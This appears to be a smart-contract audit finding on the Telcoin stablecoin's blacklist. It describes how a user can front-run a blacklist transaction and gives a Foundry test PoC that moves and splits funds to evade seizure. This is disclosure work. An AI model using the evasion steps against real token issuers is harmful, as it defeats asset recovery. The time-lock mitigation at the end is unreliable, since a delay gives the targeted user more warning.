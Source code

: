 Magic Laurel Gorilla

Medium

# Fund Seizure Mechanism Bypass in Blacklist Through MEV/Frontrunning Leading to Failed Asset Recovery

### Summary

Lack of atomicity in blacklisting operation can be exploited to drain funds, as users can detect the blacklist transaction in mempool and move their funds before their balance is seized.

### Root Cause

In `Blacklist.sol`, the blacklist operation is non-atomic and easily identifiable in the mempool through the `addBlackList` function call, giving users time to react before the `_onceBlacklisted` seizes their funds.
https://github.com/sherlock-audit/2024-11-telcoin/blob/main/telcoin-audit/contracts/util/abstract/Blacklist.sol#L77-L85

https://github.com/sherlock-audit/2024-11-telcoin/blob/main/telcoin-audit/contracts/stablecoin/Stablecoin.sol#L118-L125

### Internal pre-conditions

1. User needs to have a balance in the `Stablecoin` contract

### External pre-conditions

_No response_

### Attack Path

1. ADMIN submits transaction to addBlackList(targetUser).
2. targetUser(blacklisted address) sets a MEV bot sees pending blacklist transaction in mempool.
3. targetUser frontruns with transfer of all their tokens to different address.
4. When blacklist transaction executes, _onceBlacklisted tries to seize 0 balance.

### Impact

**INVARIANT BROKEN!**
The protocol fails to seize funds from malicious users, defeating the purpose of the blacklist system's fund seizure mechanism. 


### PoC

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.24;

import "forge-std/Test.sol";
import "../src/stablecoin/Stablecoin.sol";
import "../src/util/abstract/Blacklist.sol";

contract BlacklistFrontrunTest is Test {
    Stablecoin public stablecoin;
    address public admin = address(0x1);
    address public blacklister = address(0x2);
    address public alice = address(0x3);
    address public bob = address(0x4);
    
    // Initial balance for Alice
    uint256 constant INITIAL_BALANCE = 1000 ether;
    
    function setUp() public {
        // Deploy Stablecoin contract
        stablecoin = new Stablecoin();
        
        // Initialize with admin
        stablecoin.initialize("Test Stablecoin", "TST");
        
        // Setup roles
        vm.startPrank(admin);
        stablecoin.grantRole(stablecoin.DEFAULT_ADMIN_ROLE(), admin);
        stablecoin.grantRole(stablecoin.BLACKLISTER_ROLE(), blacklister);
        stablecoin.grantRole(stablecoin.MINTER_ROLE(), admin);
        vm.stopPrank();
        
        // Mint initial tokens to Alice
        vm.prank(admin);
        stablecoin.mint(alice, INITIAL_BALANCE);
    }
    
    function test_normalBlacklistSeizure() public {
        // Normal case where blacklist succeeds in seizing funds
        vm.prank(blacklister);
        stablecoin.addBlackList(alice);
        
        // Verify funds were seized
        assertEq(stablecoin.balanceOf(alice), 0, "Alice balance should be 0");
        assertEq(stablecoin.balanceOf(blacklister), INITIAL_BALANCE, "Blacklister should have seized funds");
    }
    
    function test_frontrunBlacklistAttack() public {
        // Store Alice's initial balance for verification
        uint256 aliceInitialBalance = stablecoin.balanceOf(alice);
        
        // Simulate mempool monitoring
        // We get the calldata that would be used to blacklist Alice
        bytes memory blacklistCalldata = abi.encodeWithSelector(
            stablecoin.addBlackList.selector,
            alice
        );
        
        // FRONTRUN: Alice sees the blacklist transaction and quickly moves funds
        vm.prank(alice);
        stablecoin.transfer(bob, aliceInitialBalance);
        
        // Original blacklist transaction executes
        vm.prank(blacklister);
        stablecoin.addBlackList(alice);
        
        // Verify the attack results
        assertEq(stablecoin.blacklisted(alice), true, "Alice should be blacklisted");
        assertEq(stablecoin.balanceOf(alice), 0, "Alice balance should be 0");
        assertEq(stablecoin.balanceOf(bob), INITIAL_BALANCE, "Bob should have all the funds");
        assertEq(stablecoin.balanceOf(blacklister), 0, "Blacklister should have seized nothing");
        
        // Verify Alice can't receive new funds after blacklist
        vm.expectRevert(abi.encodeWithSelector(Blacklist.Blacklisted.selector, alice));
        vm.prank(bob);
        stablecoin.transfer(alice, 100);
    }
    
    function test_frontrunWithMultipleTransfers() public {
        // Split the balance transfer to multiple addresses to make recovery harder
        address[] memory receivers = new address[](3);
        receivers[0] = address(0x5);
        receivers[1] = address(0x6);
        receivers[2] = address(0x7);
        
        uint256 splitAmount = INITIAL_BALANCE / 3;
        
        // FRONTRUN: Alice splits and transfers funds
        vm.startPrank(alice);
        for(uint i = 0; i < receivers.length; i++) {
            stablecoin.transfer(receivers[i], splitAmount);
        }
        vm.stopPrank();
        
        // Blacklist transaction executes
        vm.prank(blacklister);
        stablecoin.addBlackList(alice);
        
        // Verify the attack results
        assertEq(stablecoin.balanceOf(alice), 0, "Alice balance should be 0");
        assertEq(stablecoin.balanceOf(blacklister), 0, "Blacklister should have seized nothing");
        
        // Verify funds are distributed among receivers
        for(uint i = 0; i < receivers.length; i++) {
            assertEq(stablecoin.balanceOf(receivers[i]), splitAmount, 
                "Each receiver should have their split amount");
        }
    }
    
    function test_blacklistWithNoBalance() public {
        // Transfer all funds before blacklist
        vm.prank(alice);
        stablecoin.transfer(bob, INITIAL_BALANCE);
        
        // Try to blacklist empty account
        vm.prank(blacklister);
        stablecoin.addBlackList(alice);
        
        assertEq(stablecoin.balanceOf(alice), 0, "Alice balance should be 0");
        assertEq(stablecoin.balanceOf(blacklister), 0, "Blacklister should have seized nothing");
        assertEq(stablecoin.balanceOf(bob), INITIAL_BALANCE, "Bob should have all funds");
    }
}
```

### Mitigation

1. Use a two-step process with time-lock:

```solidity
function proposeBlacklist(address user) external onlyRole(BLACKLISTER_ROLE) {
    proposedBlacklist[user] = block.timestamp + DELAY;
}

function executeBlacklist(address user) external onlyRole(BLACKLISTER_ROLE) {
    require(block.timestamp >= proposedBlacklist[user], "Too early");
    // Execute blacklist
}
```